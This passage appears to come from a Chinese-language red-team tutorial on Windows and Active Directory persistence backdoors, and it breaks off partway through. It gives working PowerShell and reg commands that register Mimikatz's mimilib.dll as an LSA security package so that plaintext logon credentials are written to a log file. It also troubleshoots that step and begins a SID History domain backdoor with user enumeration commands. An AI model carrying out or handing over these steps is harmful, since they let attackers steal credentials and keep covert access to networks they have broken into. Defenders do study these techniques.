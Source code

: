 注销用户之后，可以访问`C:\Windows\System32\mimilsa.log`，会有日志文件

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512001105.png)

### 2.2 通过注册表更新后门(永久)

项目[Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)提供了一个DLL文件（mimilib.dll），可以将其放到与LSASS进程（System32）相同的位置，以便为访问受感染主机的任何用户获得纯文本凭据。

如下：

```powershell
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
reg add "hklm\system\currentcontrolset\control\lsa" /v "Security Packages" /t REG_MULTI_SZ   /d  "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib.dll"
```

> 这里踩了一个坑，当路径已经到达末尾时，后面不要有`\`，否则会进行转义，如下：

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512001445.png)

但是却找不到

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512001934.png)

查看了一下注册表，没写进去

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512120929.png)

去掉`\`之后，就成功写入了。

之后重启，访问`c:\windows\system32\kiwissp.log`即可得到

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512122631.png)

## 3. SID History 域后门

> 每个用户帐号都有一个关联的安全标识符（简称SID），SID 用于跟踪安全主体在访问资源时的帐户与访问权限。为了支持 AD 迁移，微软设计了 SID History 属性，SID History 允许另一个帐户的访问被有效的克隆到另一个帐户。通过 SID History 可让用户拥有不同身份的权限，在单域中同样有效。

查询域内用户

```powershell
dsquery user
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512122908.png)

将工具上传  https://github.com/lucasbiella/admodule

导入模块，查看用户的`SID History`

```powershell
Import-Module activedirector
Get-ADUser liukaifeng01 -Properties sidhistory
```

